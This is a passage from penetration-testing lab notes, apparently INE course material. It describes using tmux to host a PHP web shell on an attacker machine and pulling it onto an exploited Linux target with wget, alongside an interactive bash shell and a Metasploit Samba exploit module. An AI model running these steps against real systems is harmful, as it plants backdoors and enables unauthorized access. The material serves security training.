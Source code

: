 #### Linux

- After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
- 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

[**`tmux`**](https://github.com/tmux/tmux/wiki) - *is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it*

```bash
sudo apt install tmux -y
```

```bash
# Attacker machine
tmux
# ... Exploitation with MSFconsole in Terminal 0 ...
# CTRL+B and then C to open a new terminal session

cd /usr/share/webshells/php/
ip -br -c a
	192.219.50.2
python3 -m http.server 80
```

```bash
# CTRL+B then 0 (zero) to navigate to the first Terminal session
# Target machine
/bin/bash -i
wget http://192.219.50.2/php-backdoor.php
```

![wget http://<ATTACKER_IP>/php-backdoor.php](assets/image-20230428232055646.png)

## Interactive Shells

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.
